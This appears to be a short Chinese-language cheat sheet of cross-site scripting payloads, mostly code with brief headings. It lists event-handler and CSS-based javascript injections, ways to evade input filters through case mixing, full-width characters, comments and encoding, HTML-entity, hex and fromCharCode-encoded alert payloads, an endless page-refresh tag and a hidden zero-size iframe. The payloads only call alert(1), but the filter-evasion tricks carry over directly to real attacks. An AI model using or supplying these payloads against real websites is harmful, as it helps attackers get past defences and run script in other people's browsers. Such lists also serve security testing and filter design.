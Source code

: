 * 产生自己的事件

  ```
  <img scr="#" onerror=alert(1);>
  onclick
  onResume
  onReverse
  ....
  ```

* 利用CSS

  ```
  <img style="background-image:url(javascript:alert(1))">
  //expression好像不再使用
  //<img style="background-image:expression(alert(1))">
  <style>@import 'javascript:alert(1)';</style>
  ```

* 扰乱过滤规则

  ```
  //转换大小写，大小写混淆
  //双引号，单引号，不使用引号
  //
  //全角字符
  // /**/
  //样式标签中的\和\0,转码，改变编码中0的个数
  //注释
  
  ```

* 字符编码

  ```
  <img src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
  另：换成10进制也行，每个数前加0也行
  
  <script>eval(\x61\x6c\x65\x72\x74\x28\x31\x29\x3b)</script>//16进制
  
  <img src="javascript:eval(String.fromCharCode(97,108,101,114,116,40,49,41,59))">//10进制
  
  //脚本加密：JScript Encode VBScript Encode
  
  
  ```

  

* 拆分

  
  
* 其他

  ```
  //不断刷新
  <meta http-equiv="refresh" content="0;">
  //嵌入其他网站的链接
  <iframe src=http://www.xxx.com width=0 height=0></iframe>
  ```
